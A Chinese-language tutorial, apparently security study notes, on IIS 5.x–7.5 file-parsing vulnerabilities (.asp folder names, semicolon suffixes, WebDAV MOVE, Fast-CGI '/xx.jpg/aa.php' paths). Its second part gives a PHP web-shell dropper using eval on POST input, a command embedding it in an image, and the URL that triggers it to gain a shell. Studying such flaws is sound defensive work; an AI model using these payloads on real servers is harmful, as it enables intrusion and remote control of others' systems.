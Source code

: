 # IIS解析漏洞

### 一、IIS 5.X/6.0

1. 目录解析

以**.asp、.asa**命名的文件夹里的所有文件都将被当成ASP文件解析。

```
asd.asp/abcd.jpg
```

abcd.jpg文件会被解析成asp文件

![](1.png)

![](2.png)

2. 文件解析

在IIS6.0下，文件名分号后面的直接被忽略，

```file
test.asp;.jpg
```

除了**.asp**还有**.asa、.cer、.cdx**，都会解析成asp文件

![](3.png)

![](4.png)



在iis6.0中若只开启了WebDAV，但并没有开放脚本资源的访问权限的话。是不能通过MOVE来把put

上去的txt文件变成asp文件。虽然没开脚本资源访问权限，但是可以通过move改成后缀为txt的文件名。配合文件解析漏洞可getshell。



### 二、IIS 7.0/7.5

1. 畸形解析

在 IIS7.0中，默认开启Fast-CGI

在文件夹/xx.jpg后面加上/aa.php一句话木马会将/xx.jpg/aa.php解析成php文件

```
/xx.jpg/aa.php
```

**利用方法：将图片和恶意代码合并成一张图片，上传至目标机**

恶意代码：

```code
<?php fputs(fopen('shell.php','w'),'<?php eval($_POST['cmd'])?>');?>
//意思是fputs()写一个shell.php文件保存到本地，文件内容是<?php eval($_POST['cmd'])?>
```

将代码与图片合并：

```code
copy xx.jpg/b + 404.txt/a ok.jpg
//cmd命令行下执行，/b表示二进制模式，/a即ascii模式，合并成ok.jpg图片
```

将ok.jpg文件上传到目标机，然后访问jpg文件后面加上/xx.php

```url
http://ip/upload/file/ok.jpg/xx.php
```

这样就ok.jpg就会被当成php文件来执行，所以图片里面的代码就会被执行，执行之后就在本地创建了一个shell.php文件，上蚁剑连接getshell

